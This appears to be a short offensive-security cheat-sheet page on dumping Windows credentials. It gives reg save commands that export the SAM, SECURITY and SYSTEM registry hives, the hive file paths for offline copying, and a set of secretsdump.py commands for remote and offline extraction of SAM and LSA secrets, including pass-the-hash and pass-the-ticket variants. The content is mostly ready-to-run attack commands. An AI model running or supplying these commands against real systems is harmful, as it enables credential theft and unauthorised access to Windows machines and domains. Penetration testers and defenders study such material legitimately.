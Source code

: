 # SAM & Registry

When the Windows operating system is running, the hives are in use and mounted. The command-line tool named `reg` can be used to export them.

```
reg save HKLM\SAM "C:\Windows\Temp\sam.save"
reg save HKLM\SECURITY "C:\Windows\Temp\security.save"
reg save HKLM\SYSTEM "C:\Windows\Temp\system.save"
```

When Windows is not running, the hives are not mounted and they can be copied just like any other file. This can be operated when mounting the hard drive from another OS (e.g. when booting the computer on another operating system). The hive files can be found at the following locations.

```
\system32\config\sam
\system32\config\security
\system32\config\system
```

{% hint style="info" %}
Hives files can also be exfiltrated from live systems using Volume Shadow Copy.
{% endhint %}

the we download the 3 files and extract the hashes with secretsdump:

```
# Remote dumping of SAM & LSA secrets
secretsdump.py 'DOMAIN/USER:PASSWORD@TARGET'
​
# Remote dumping of SAM & LSA secrets (pass-the-hash)
secretsdump.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
​
# Remote dumping of SAM & LSA secrets (pass-the-ticket)
secretsdump.py -k 'DOMAIN/USER@TARGET'
​
# Offline dumping of LSA secrets from exported hives
secretsdump.py -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
​
# Offline dumping of SAM secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -system '/path/to/system.save' LOCAL
​
# Offline dumping of SAM & LSA secrets from exported hives
secretsdump.py -sam '/path/to/sam.save' -security '/path/to/security.save' -system '/path/to/system.save' LOCAL
```

## Other Resources

{% embed url="https://medium.com/@benichmt1/secretsdump-demystified-bfd0f933dd9b" %}

{% embed url="http://moyix.blogspot.com/2008/02/syskey-and-sam.html" %}
